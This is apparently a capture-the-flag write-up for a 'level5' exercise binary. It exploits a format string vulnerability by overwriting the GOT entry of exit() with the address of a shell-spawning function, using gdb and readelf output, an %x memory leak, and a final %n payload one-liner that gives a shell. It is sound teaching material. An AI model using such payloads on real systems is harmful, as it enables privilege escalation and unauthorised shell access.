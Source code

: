 # level5
- This program has the same vulnerability as the previous two levels: __format string vulnerability__., 
- A function named `o` runs a shell, but is never called
- `main()` calls `n()` then returns.
- `n()` finishes calling `exit()`. it is a subroutine that doen't return. So we can't overwrite the return address of `n` to point to `o`.

## Goal
Modify the call of `exit()` by the call of `o()`

## Step 1
`exit()` is called through the __PLT (Procedure Linkage Table)__ resolution. __PLT__ enters in the __GOT__ on `exit()`
```console
Dump of assembler code for function n:
   [...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

It's mean that `exit` is a dependecy of the program (extern), which is bind to the program thanks to the __PLT__ and __GOT__ mechanism (like libc), the purpose is to reduce size of the binary. __GOT__ is a table where we can find the dependencies addresses.


Since __PIE__ is disabled, the __GOT__ is always at the same address.

We can overwrite the __GOT__ entry of `exit()` with the address of `o()` thanks to the __format string vulnerability__.

## Step 2

```bash
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>
--- OR ---
objdump -t level5
080484a4 g     F .text	0000001e              o
```
`o` is at `0x80484a4`

---

```bash
$ readelf -r level5 | grep exit
08049828  00000207 R_386_JUMP_SLOT   00000000   _exit
08049838  00000607 R_386_JUMP_SLOT   00000000   exit
```

`exit` is at `0x08049838`

### Notice
> viewed before:
```console
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```  
> 0x80483d0 is not the address of `exit`, it's the address of the __PLT__ entry of `exit`
>
```bash
(gdb) disas 0x80483d0  
Dump of assembler code for function exit@plt:  
   0x080483d0 <+0>:	jmp    *0x8049838  
   0x080483d6 <+6>:	push   $0x28  
   0x080483db <+11>:	jmp    0x8048370  
End of assembler dump.  
(gdb)
```
> the `exit` __PLT__ entry jumps to  `0x8049838`, the __GOT__ entry of `exit`


## Step 3
Lets try to overwrite the __GOT__ entry of `exit` with the address of `o`

```bash
$ gdb level5
(gdb) b *main
(gdb) r
(gdb) set {int}0x8049838=0x80484a4
(gdb) c
$ whoami
level5
(gdb)
```

It works, we have a shell with the user `level5` privileges. (gdb run with the same privileges as the user not the SUID bit permissions)


## step 4

We have to leaks the memory until we reach the address of `exit()`

```bash
(python -c 'print "AAAA " + "%x " * 10000'; cat)  | /home/user/level5/level5 | grep 8049838
```
We never reach the address of `exit()`. But we reach the buffer

```bash
(python -c 'print "AAAA " + "%x " * 16'; cat)  | /home/user/level5/level5
```
```console
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```

Buffer is at the 4th position

## Exploit


Write the address of `exit` in the buffer and modify it by the value of `o` thanks to `%n` when `printf` access to the buffer.



```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"'; cat)  | /home/user/level5/level5
```

- >  134513824 is the decimal value for 0x80484A4
